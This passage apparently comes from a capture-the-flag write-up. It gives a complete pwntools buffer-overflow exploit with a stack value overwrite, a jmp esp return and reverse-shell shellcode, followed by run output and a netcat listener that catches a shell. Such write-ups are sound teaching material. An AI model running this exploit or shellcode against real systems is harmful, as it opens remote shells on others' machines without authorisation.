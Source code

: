 Next I place my shellcode in the right location in the exploit buffer, from inspecting the stack in GDB I find that the shellcode actually needs to be placed after our EIP value in our buffer.

```
#!/usr/bin/python
# 20dec15
#
from pwn import *

#HOST = '127.0.0.1'
HOST = '54.233.105.81'
PORT = 4242

buf =  'A' * 103 + p32(0xe4ffffe4) # 103 A's then a stack canary
buf += 'A' * 4   + p32(0x80493b6)  # jmp esp

# Shellcode
buf += "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66"
buf += "\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x34"
buf += "\x40\x61\xdd\x68\x02\x00\x11\x5b\x89\xe1\xb0\x66\x50"
buf += "\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x2f\x2f\x73"
buf += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0"
buf += "\x0b\xcd\x80"

buf += 'B' * (199-len(buf))        # fill out the buffer to 200 bytes

conn = remote(HOST,PORT)
banner = conn.recvuntil('logged in users')
print "[*] Got banner, sending hidden command..."
conn.sendline('X')
banner = conn.recvuntil('protected!')
print "[*] Got hidden prompt, sending payload..."
conn.sendline(buf)
conn.interactive()

```

Finally, I setup a listener using netcat on my EC2 instance and fire away my exploit:

```
root@kali:~# ./pwnstat.py 
[+] Opening connection to 54.233.105.81 on port 4242: Done
[*] Got banner, sending hidden command...
[*] Got hidden prompt, sending payload...
[*] Switching to interactive mode

\x00[*] Got EOF while reading in interactive

```

It’s successful, and for a moment I have a UID = nobody shell!

```
root@ip-172-31-3-237:/home/ubuntu# nc -lvp 4443
Listening on [0.0.0.0] (family 0, port 4443)
Connection from [54.233.105.81] port 4443 [tcp/*] accepted (family 2, sport 38149)
id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)

```
